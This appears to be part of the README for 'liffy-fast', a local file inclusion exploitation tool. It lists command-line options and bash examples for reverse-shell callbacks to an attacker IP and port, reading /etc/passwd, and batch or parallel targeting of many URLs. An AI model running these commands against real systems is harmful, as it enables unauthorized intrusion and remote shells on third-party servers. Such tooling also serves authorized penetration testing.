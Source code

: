 ### Common Options

- `--url URL` - Target URL with LFI parameter
- `--lhost IP` - Callback host for reverse shells
- `--lport PORT` - Callback port for reverse shells
- `--auto-ip` - Auto-detect IP address
- `--auto-port` - Auto-detect available port
- `--batch` - Process URLs from stdin
- `--parallel` - Process URLs in parallel
- `--json` - Output results in JSON format
- `--threads N` - Number of parallel threads
- `--timeout N` - Request timeout in seconds
- `--cookies COOKIES` - Session cookies
- `--user-agent UA` - Custom User-Agent string
- `--proxy PROXY` - HTTP proxy
- `--verbose` - Verbose output
- `--output FILE` - Output file for logs

## Examples

### Single URL Testing

```bash
# Basic data technique
liffy-fast data --url "http://target/file.php?page=" --lhost 192.168.1.100 --lport 4444

# Filter technique for file reading
liffy-fast filter --url "http://target/file.php?page=" --file "/etc/passwd"

# Auto technique detection
liffy-fast auto --url "http://target/file.php?page=" --auto-ip --auto-port
```

### Batch Processing

```bash
# Process multiple URLs from file
cat urls.txt | liffy-fast data --batch --lhost 192.168.1.100 --lport 4444

# Parallel batch processing
cat urls.txt | liffy-fast data --batch --parallel --lhost 192.168.1.100 --lport 4444

# JSON output for further processing
cat urls.txt | liffy-fast data --batch --json --lhost 192.168.1.100 --lport 4444 > results.json
```

### Xargs Integration

```bash
# Basic xargs usage
cat urls.txt | xargs -I {} liffy-fast data --url "{}" --lhost 192.168.1.100 --lport 4444

# Xargs with parallel processing
cat urls.txt | xargs -P 4 -I {} liffy-fast data --url "{}" --lhost 192.168.1.100 --lport 4444

# Xargs with auto IP detection
cat urls.txt | xargs -I {} liffy-fast data --url "{}" --auto-ip --auto-port
```
